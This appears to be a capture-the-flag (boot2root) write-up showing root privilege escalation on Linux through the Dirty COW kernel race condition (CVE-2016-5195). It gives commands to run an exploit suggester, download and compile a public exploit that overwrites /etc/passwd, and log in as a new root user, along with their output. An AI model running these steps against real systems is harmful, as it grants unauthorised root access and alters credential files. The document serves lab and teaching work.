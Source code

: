 # Root privilege escalation - Method 2: Dirty cow

## LES: Linux privilege escalation auditing tool

LES tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It provides following functionality:

- Assessing kernel exposure on publicly known exploits
- Verifying state of kernel hardening security measures

[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

```shell
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
bash les.sh > les.log
```

[Full Report here](/home/aurelien/dev/42_boot2root/logs/les.html)

We will use the exploit `dirtycow2` based on `CVE-2016-5195` vulnerability, commonly named `Dirty cow`.

```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

## Dirty COW (Copy-On-Write)

### Details

[<img src="images/dirtycow.png" align="right" width="50%">](https://www.youtube.com/watch?v=kEsshExn7aE)

A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings.

The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.

Impact

- An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
- This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.

### Exploit: Pokemon exploit of the dirtycow vulnerability

| Link                                                                | Usage   | Description            | Family          |
| ------------------------------------------------------------------- | ------- | ---------------------- | --------------- |
| [dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c) | ./dirty | /etc/passwd based root | PTRACE_POKEDATA |

- This exploit uses the "pokemon" exploit of the dirtycow vulnerability as a base and automatically generates a new passwd line.
- The user will be prompted for the new password when the binary is run.
- The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line.
- After running the exploit you should be able to login with the newly created user.

### How to

```shell
# Download and compile the exploit
curl https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c > dirty.c
gcc -pthread dirty.c -o dirty -lcrypt


# Run it and enter the new password
./dirty
  /etc/passwd successfully backed up to /tmp/passwd.bak
  Please enter the new password:

# Login with newly created user
su firefart
id
  uid=0(firefart) gid=0(root) groups=0(root)

# DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
mv /tmp/passwd.bak /etc/passwd
```

or run:

```shell
./scripts/exploits/dirtycow_PTRACE_POKEDATA.sh
```

## Sources

### Helpers

- [book.hacktricks.xyz - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
- [Linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester)

### Vulnerability

- [Dirty Cow - Vulnerability Details](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails)

### Exploit

- [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)
